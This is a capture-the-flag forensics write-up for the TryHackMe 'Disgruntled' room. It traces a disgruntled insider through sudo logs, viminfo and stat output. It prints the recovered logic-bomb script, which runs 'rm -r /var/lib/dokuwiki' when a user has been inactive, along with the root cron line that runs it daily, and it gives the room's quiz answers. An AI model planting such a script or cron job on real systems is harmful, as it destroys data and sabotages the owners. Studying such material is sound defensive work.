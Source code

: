 ```yaml
---
title: Disgruntled
tags:
  - thm
  - premium
---
```

# [Disgruntled](https://tryhackme.com/r/room/disgruntled)


![enter image description here](https://tryhackme-images.s3.amazonaws.com/room-icons/03de138b8dfa8f5b003298c17b73fbd8.png)
## Nothing suspicious... So far
```bash
root@ip-10-10-177-249:/var/log# cat /var/log/auth.log | grep -i sudo | grep -i COMMAND
Dec 22 07:56:27 ip-10-10-158-38 sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/bin/date -s last year
Dec 22 07:56:36 ip-10-10-158-38 sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/bin/nano /etc/ssh/sshd_config
Dec 22 07:57:45 ip-10-10-158-38 sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/bin/systemctl restart ssh
Dec 22 07:58:09 ip-10-10-158-38 sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/sbin/useradd -m cybert -s /bin/bash
Dec 22 07:58:14 ip-10-10-158-38 sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/bin/passwd cybert
Dec 22 07:58:24 ip-10-10-158-38 sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/sbin/visudo
Dec 28 06:17:30 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/bin/apt install dokuwiki
Dec 28 06:18:12 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/bin/rm /var/lib/dpkg/lock
Dec 28 06:18:17 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/bin/dpkg --configure -a
Dec 28 06:18:33 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/bin/lsof /var/lib/dpkg/lock
Dec 28 06:18:36 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/bin/lsof /var/lib/dpkg/lock-frontend
Dec 28 06:18:47 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/bin/rm /var/lib/dpkg/lock-frontend
Dec 28 06:18:52 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/bin/dpkg --configure -a
Dec 28 06:19:01 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/bin/apt install dokuwiki
Dec 28 06:20:46 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/bin/chown www-data:www-data /usr/share/dokuwiki
Dec 28 06:20:55 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/bin/chown www-data:www-data /usr/share/dokuwiki/VERSION /usr/share/dokuwiki/bin /usr/share/dokuwiki/doku.php /usr/share/dokuwiki/feed.php /usr/share/dokuwiki/inc /usr/share/dokuwiki/index.php /usr/share/dokuwiki/install.php /usr/share/dokuwiki/lib /usr/share/dokuwiki/vendor -R
Dec 28 06:21:05 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/bin/chown www-data:www-data /var/lib/dokuwiki
Dec 28 06:21:14 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/bin/chown www-data:www-data /var/lib/dokuwiki/acl /var/lib/dokuwiki/data /var/lib/dokuwiki/inc /var/lib/dokuwiki/lib -R
Dec 28 06:21:20 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/bin/ln -s /var/lib/dokuwiki/data /usr/share/dokuwiki/data
Dec 28 06:21:28 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/bin/ln -s /etc/dokuwiki/license.php /usr/share/dokuwiki/conf/license.php
Dec 28 06:22:12 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/bin/nano /etc/apache2/sites-available/dokuwiki.conf
Dec 28 06:22:25 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/a2ensite dokuwiki
Dec 28 06:22:37 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/bin/systemctl reload apache2
Dec 28 06:26:52 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/adduser it-admin
Dec 28 06:27:34 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/visudo
Dec 28 06:29:14 ip-10-10-168-55 sudo: it-admin : TTY=pts/0 ; PWD=/home/it-admin ; USER=root ; COMMAND=/usr/bin/vi bomb.sh
Dec 28 06:30:10 ip-10-10-168-55 sudo: it-admin : TTY=pts/0 ; PWD=/home/it-admin ; USER=root ; COMMAND=/bin/nano /etc/crontab
Dec 28 07:01:22 ip-10-10-117-219 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/bin/passwd root
Dec 28 07:01:30 ip-10-10-117-219 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/bin/passwd root
Dec 28 07:14:07 ip-10-10-243-54 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/bin/nano /etc/ssh/sshd_config
Dec 28 07:14:27 ip-10-10-243-54 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/service sshd restart`cybert` user has executed `sudo apt install dokuwiki` on `Dec 28 06:19:01` and the command logged as `/usr/bin/apt install dokuwiki` in `/home/cybert` directory.
```
### The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?
A: `/usr/bin/apt install dokuwiki`
### What was the present working directory (PWD) when the previous command was run?
A: `/home/cybert`
## Let’s see if you did anything bad
### Which user was created after the package from the previous task was installed?
```bash
root@ip-10-10-177-249:/var/log# cat /var/log/auth.log | grep adduser
Dec 28 06:26:52 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/adduser it-admin
```
`cybert` user has executed `adduser` command to create a user name `it-admin`.
### A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)
```bash
root@ip-10-10-177-249:/var/log# cat /var/log/auth.log | grep -i COMMAND | tail -n 8 | head -n 2
Dec 28 06:26:52 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/adduser it-admin
Dec 28 06:27:34 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/visudo
```
`cybert` user executes  `visudo` command to configure `/etc/sudoers/` file, and give `sudo` permissions to `it-admin` user.
### A script file was opened using the "vi" text editor. What is the name of this file?
```bash
root@ip-10-10-177-249:/var/log# cat /var/log/auth.log | grep -i COMMAND | tail -n 8 | head -n 3
Dec 28 06:26:52 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/adduser it-admin
Dec 28 06:27:34 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/visudo
Dec 28 06:29:14 ip-10-10-168-55 sudo: it-admin : TTY=pts/0 ; PWD=/home/it-admin ; USER=root ; COMMAND=/usr/bin/vi bomb.sh
```
 `it-admim` user executed `vi bomb.sh` command in  `/home/it-admin` to edit `/home/it-admin/bomb.sh` file.
 ## Bomb has been planted. But when and where?
 ### What is the command used that created the file `bomb.sh`?
 ```bash
 root@ip-10-10-177-249:~# cat /home/it-admin/.viminfo | head -n 17|tail -n 4
:q!
|2,0,1672208992,,"q!"
:saveas /bin/os-update.sh
|2,0,1672208983,,"saveas /bin/os-update.sh"
 ```
 `it-admin` user saves a file executing `:saveas /bin/os-update.sh` instead of using  `:wq!` or `^zZ`. 
 
 Taking the previous entries into account, the user `it-admin` edited the file `/home/it-admin/bomb.sh` using the `vi` editor and saved it as `/bin/os-update.sh` using the command `:saveas /bin/os-update.sh`.
### When was the file from the previous question last modified? (Format: Month Day HH:MM)
```bash
root@ip-10-10-177-249:~# stat /bin/os-update.sh 
  File: /bin/os-update.sh
  Size: 325       	Blocks: 8          IO Block: 4096   regular file
Device: 10302h/66306d	Inode: 26          Links: 1
Access: (0644/-rw-r--r--)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2024-08-02 09:45:14.760005052 +0000
Modify: 2022-12-28 06:29:43.998004273 +0000
Change: 2022-12-28 06:29:43.998004273 +0000
 Birth: -
```
A: `Dec 28 06:29`
### What is the name of the file that will get created when the file from the first question executes?

```bash
root@ip-10-10-177-249:~# cat /bin/os-update.sh 
# 2022-06-05 - Initial version
# 2022-10-11 - Fixed bug
# 2022-10-15 - Changed from 30 days to 90 days
OUTPUT=`last -n 1 it-admin -s "-90days" | head -n 1`
if [ -z "$OUTPUT" ]; then
        rm -r /var/lib/dokuwiki
        echo -e "I TOLD YOU YOU'LL REGRET THIS!!! GOOD RIDDANCE!!! HAHAHAHA\n-mistermeist3r" > /goodbye.txt
fi
```
A: `goodbye.txt`
## Following the fuse
### At what time will the malicious file trigger? (Format: HH:MM AM/PM)
```bash
root@ip-10-10-177-249:~# cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
0 8	* * *	root	/bin/os-update.sh
#
```
A `cronjob` comprised by attacker assigned to `root` user that executes `/bin/os-update.sh` everyday at `08:00 AM`.  You can use [Crontab.guru](https://crontab.guru/) to convert it.